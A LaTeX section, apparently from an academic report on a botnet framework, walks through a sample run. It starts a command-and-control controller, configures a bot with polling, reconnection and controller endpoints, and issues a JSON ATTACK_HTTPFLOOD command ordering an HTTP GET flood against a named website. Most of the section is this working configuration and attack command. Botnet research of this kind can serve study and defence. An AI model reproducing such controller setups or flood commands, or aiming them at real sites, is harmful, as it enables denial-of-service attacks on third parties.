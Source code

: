 \section{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works.
We suggest the reader to refer to \cite{video-tutorial} to better understand how configuration and commands could be conveniently generated.

First, the controller is started and attached to the default port 3000 with standard verbosity:

\begin{verbatim}
  $[controller-dir] npm start
\end{verbatim}

Then, the following configuration is given for the bot, writing it in \texttt{/path/to/configuration/config.yaml}:

\begin{verbatim}
  cnfInfo: true
  tgtInfo: true
  sysInfo: true
  netInfo: false
  polling: "3-5:SECONDS"
  reconnections: 3
  reconnectionWait: "2-5:SECONDS"
  proxy: "none"
  sleep: "* * * ? * SAT,SUN"
  authentication:
    User-Agent: MyAwesomeBot
  controllers:
    - init: http://localhost:4000/init
      command: http://localhost:4000/command
      log: http://localhost:4000/report
    - init: http://localhost:3000/init
      command: http://localhost:3000/command
      log: http://localhost:3000/report
    - init: data/samples/controllers/1/init.json
      command: data/samples/controllers/1/command.json
      log: data/samples/controllers/1/report.json
\end{verbatim}

Notice that the first specified controller is an invalid one, the second one is valid because the controller has been started at port 3000, and the last one is provided as a fallback controller for local testing.
The controller gives the bot the following \texttt{ATTACK\_HTTPFLOOD} command to perform a HTTP GET Flooding attack:

\begin{verbatim}
	{
  		"timestamp": 1485675115019,
	    "command": "ATTACK_HTTPFLOOD",
  		"attacks": [
    		{
      			"target": "http://www.micheleporretta.com",
      			"method": "GET",
      			"header": {
        			"User-Agent": "myBot"
      			},
      			"executions": "3",
      			"period": "10-120:MILLISECONDS"
    		},
    		{
      			"target": "http://www.micheleporretta.com",
      			"method": "GET"
    		}
  		],
  		"report": false
	}
\end{verbatim}


